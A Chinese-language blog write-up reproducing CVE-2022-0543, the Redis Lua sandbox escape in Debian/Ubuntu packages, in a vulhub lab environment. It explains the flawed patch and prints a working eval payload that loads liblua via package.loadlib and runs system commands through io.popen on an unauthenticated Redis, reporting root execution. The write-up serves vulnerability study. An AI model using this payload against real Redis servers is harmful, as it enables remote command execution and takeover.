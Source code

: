 ```yaml
---
layout: post
title: '【vulhub】redis CVE-2022-0543（redis沙盒逃逸）'
date: "2025-02-27T00:37:04Z"
---
```

【vulhub】redis CVE-2022-0543（redis沙盒逃逸）
======================================

CVE-2022-0543 redis沙盒逃逸漏洞复现

渗透环境
====

攻击机：   IP: 192.168.66.130（Kali）

漏洞收录于：vulhub/redis/CVE-2022-0543

涉及知识点：redis沙盒逃逸

漏洞详情
====

**受影响的系统**：

*   **仅限于 Debian 系 Linux 发行版**（如 Debian、Ubuntu）及其衍生版本。
*   **不受影响的系统**：CentOS、RHEL 等非 Debian 系发行版不受此漏洞影响（漏洞源于 Debian 维护者在打包 Redis 时的补丁问题，而非 Redis 自身代码问题）。

**受影响的 Redis 版本范围**：

*   redis版本小于等于6.x的都可以尝试。

**触发条件**：

​ 攻击者需具备 Redis 的未授权访问权限或合法凭证。

**漏洞原理**

1.  **背景**  
    Redis 允许通过 `eval` 命令执行 Lua 脚本，但正常情况下这些脚本运行在沙箱中，无法执行系统命令或文件操作。
    
2.  **补丁引入的漏洞**  
    Debian/Ubuntu 在打包 Redis 时，通过补丁代码向 Lua 沙箱中注入了一个名为 `package` 的全局对象。该对象本应在源码中被注释（出于沙箱安全考虑），但补丁错误地重新启用了它。
    
3.  **沙盒逃逸过程**
    
    *   **加载动态库**：攻击者可通过 `package.loadlib` 加载 Lua 系统库（如 `liblua5.1.so.0`），调用其导出函数（如 `luaopen_io`）获取 `io` 库权限。
    *   **执行命令**：利用 `io.popen` 等函数执行任意系统命令。
    
        local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
        local io = io_l();
        local f = io.popen("whoami", "r");  -- 执行系统命令
        local res = f:read("*a");
        f:close();
        return res;
        
    

**攻击思路**：

单从攻击角度而言，可以使用redis未授权相同的打法，博客见：[【vulhub】redis 4-unacc （redis未授权访问） - Mr\_Soap - 博客园](https://www.cnblogs.com/MrSoap/p/18737580)

从漏洞角度来看，使用`eval`函数执行上面的逃逸过程即可。

复现漏洞
====

一、 启动漏洞容器
---------

    docker-compose up -d
    

![img](https://img2023.cnblogs.com/blog/3159215/202502/3159215-20250226150717320-1275936373.png)

可以看到redis运行在默认端口6379上

二、未授权连接
-------

    redis-cli -h 192.168.66.130
    

> redis-cli -h \[IP\] -p \[port\] -a \[password\]
> 
> 当使用默认端口6379时可不使用参数-p

测试连接，ping一下，成功连接

![img](https://img2023.cnblogs.com/blog/3159215/202502/3159215-20250225201911846-2084344108.png)

三、get shell
-----------

    eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");local io = io_l();local f = io.popen("whoami", "r");local res = f:read("*a");f:close();return res;' 0
    

![img](https://img2023.cnblogs.com/blog/3159215/202502/3159215-20250226151430108-467796374.png)

可以看到命令都已经成功执行，我们已经拿到了root权限